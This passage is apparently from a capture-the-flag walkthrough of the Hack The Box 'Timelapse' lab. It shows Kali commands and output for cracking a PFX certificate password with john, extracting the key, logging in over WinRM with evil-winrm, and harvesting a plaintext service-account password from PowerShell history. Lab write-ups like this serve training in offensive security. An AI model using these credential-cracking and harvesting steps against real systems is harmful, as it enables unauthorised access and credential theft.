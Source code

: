 ```
┌──(nabla㉿kali)-[~]
└─$ python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > legacyy_dev_auth.john
```

```
┌──(nabla㉿kali)-[~]
└─$ john legacyy_dev_auth.john -wordlist:/usr/share/wordlists/rockyou.txt

[SNIP]

thuglegacy       (legacyy_dev_auth.pfx)
```

```
┌──(nabla㉿kali)-[~]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

Enter Import Password:
```

```
┌──(nabla㉿kali)-[~]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem

Enter Import Password:
```

```
┌──(nabla㉿kali)-[~]
└─$ openssl s_client -connect timelapse.htb:5986 -showcerts

CONNECTED(00000003)
depth=0 CN = dc01.timelapse.htb

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i timelapse.htb -c cert.pem -k key.pem --ssl

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C://Users//legacyy//Desktop//user.txt

24003*************************** 🚩
```

**Credentials Harvesting**

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```